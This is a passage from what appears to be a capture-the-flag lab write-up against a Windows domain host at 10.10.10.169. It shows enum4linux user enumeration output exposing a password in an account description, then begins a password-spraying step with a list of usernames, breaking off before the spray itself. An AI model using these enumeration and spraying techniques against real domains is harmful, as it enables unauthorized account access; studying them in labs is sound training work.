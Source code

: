 We could have also used a script like enum4linux to get the desired information.
```bash
root@silence:~# enum4linux -U 10.10.10.169
 =============================
|    Users on 10.10.10.169    |
 =============================
index: 0x10b0 RID: 0x19ca acb: 0x00000010 Account: abigail        Name: (null)      Desc: (null)                           
index: 0xfbc  RID: 0x1f4  acb: 0x00000210 Account: Administrator  Name: (null)      Desc: Built-in account for administering the computer/domain
index: 0x10b4 RID: 0x19ce acb: 0x00000010 Account: angela         Name: (null)      Desc: (null)                           
index: 0x10bc RID: 0x19d6 acb: 0x00000010 Account: annette        Name: (null)      Desc: (null)                           
index: 0x10bd RID: 0x19d7 acb: 0x00000010 Account: annika         Name: (null)      Desc: (null)                           
index: 0x10b9 RID: 0x19d3 acb: 0x00000010 Account: claire         Name: (null)      Desc: (null)                           
index: 0x10bf RID: 0x19d9 acb: 0x00000010 Account: claude         Name: (null)      Desc: (null)                           
index: 0xfbe  RID: 0x1f7  acb: 0x00000215 Account: DefaultAccount Name: (null)      Desc: A user account managed by the system.
index: 0x10b5 RID: 0x19cf acb: 0x00000010 Account: felicia        Name: (null)      Desc: (null)                           
index: 0x10b3 RID: 0x19cd acb: 0x00000010 Account: fred           Name: (null)      Desc: (null)                                   
index: 0xfbd  RID: 0x1f5  acb: 0x00000215 Account: Guest          Name: (null)      Desc: Built-in account for guest access to the computer/domain
index: 0x10b6 RID: 0x19d0 acb: 0x00000010 Account: gustavo        Name: (null)      Desc: (null)                           
index: 0xff4  RID: 0x1f6  acb: 0x00000011 Account: krbtgt         Name: (null)      Desc: Key Distribution Center Service Account
index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus         Name: (null)      Desc: (null)                           
index: 0x10a9 RID: 0x457  acb: 0x00000210 Account: marko          Name: Marko Novak Desc: Account created. Password set to Welcome123!
index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie        Name: (null)      Desc: (null)                           
[...]
```
Now that we have a possible password candidate, we can save all usernames to a file and check if we can login with the found password.

### Password spraying
```bash
root@silence:~# cat users.txt
Administrator
Guest
krbtgt
DefaultAccount
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
```